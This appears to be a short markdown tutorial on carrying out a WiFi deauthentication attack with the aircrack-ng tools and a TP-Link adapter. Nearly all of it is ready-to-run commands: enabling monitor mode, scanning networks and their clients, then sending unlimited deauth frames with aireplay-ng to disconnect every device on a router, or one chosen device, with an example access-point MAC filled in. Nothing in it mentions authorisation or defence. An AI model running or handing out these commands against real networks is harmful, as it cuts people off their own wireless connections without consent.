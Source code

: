 # Wifi Deauthentication Attack

## Wifi Adapter Model
- TP-Link TL-WN722N

## Identify Wifi Adapter
```
iwconfig
```

<i> <b> Let's say, wifi interface is "wlan0" </b></i>


## Kill all tasks in monitor mode
```
airmon-ng check kill 
```

## Start Monitor mode 

```
airmon-ng start wlan0
```

## Scan for available networks
```
airodump-ng wlan0 
```

## See all devices in the target router

```
airodump-ng --bssid <BSSID> --ch <Channel_number> wlan0
```
<i> <b> "station" is the client MAC address </b></i>

## Deauth Attack to the router (disables all the connected devices to the router)
```
aireplay-ng --deauth 0 -a EC:AD:E0:E5:08:C2 wlan0 
```

* -a = access point MAC address

## Deauth Attack to a single device of the router

```
aireplay-ng --deauth 0 -a EC:AD:E0:E5:08:C2 -c Station_MAC wlan0 
```
* -a = access point MAC address
* -c = client MAC address
